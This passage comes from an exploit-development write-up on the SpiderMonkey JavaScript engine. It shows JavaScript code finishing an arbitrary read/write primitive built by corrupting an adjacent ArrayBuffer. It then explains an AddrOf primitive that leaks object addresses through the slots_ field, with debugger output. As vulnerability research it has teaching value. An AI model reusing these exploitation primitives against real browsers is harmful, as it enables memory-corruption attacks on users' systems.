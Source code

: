```JavaScript
    for(const [Idx, Byte] of Addr.bytes().entries()) {
        Biggie[Idx + 0x40] = Byte;
    }

    const View = new Uint8Array(AB2);
    if(IsRead) {
        return View.slice(OddOffset, Length);
    }

    for(const [Idx, Byte] of LengthOrValues.entries()) {
        View[OddOffset + Idx] = Byte;
    }
};
```

The last primitive to redefine is the `AddrOf` primitive. For this one I simply used the technique mentioned previously that I have seen used in [foxpwn](https://github.com/saelo/foxpwn/blob/master/code.js#L442).

As we discussed in the introduction of the article, property values get stored in the associated `JSObject`. When we define a custom property on an ArrayBuffer its value gets stored in memory pointed by the `_slots` field (as there is not enough space to store it *inline*). This means that if we have two contiguous ArrayBuffers, we can leverage the first one to relatively read into the second's `slots_` field which gives us the address of the property value. Then, we can simply use our arbitrary read primitive to read the `js::Value` and strips off a few bits to leak the address of arbitrary objects. Let's assume the below JavaScript code:

```text
js> AB = new ArrayBuffer()
({})

js> AB.doare = 1337
1337

js> objectAddress(AB)
"0000020156E9A080"
```

And from the debugger this is what we can see:

```text
0:006> dt js::NativeObject 0000020156E9A080
   +0x000 group_           : js::GCPtr<js::ObjectGroup *>
   +0x008 shapeOrExpando_  : 0x00000201`56eb1a88 Void
   +0x010 slots_           : 0x00000201`57153740 js::HeapSlot
   +0x018 elements_        : 0x00007ff7`b48bd2e8 js::HeapSlot

0:006> dqs 0x00000201`57153740 l1
00000201`57153740  fff88000`00000539 <- 1337
```

So this is exactly what we are going do: define a custom property on `AB2` and relatively read out the `js::Value` and boom.
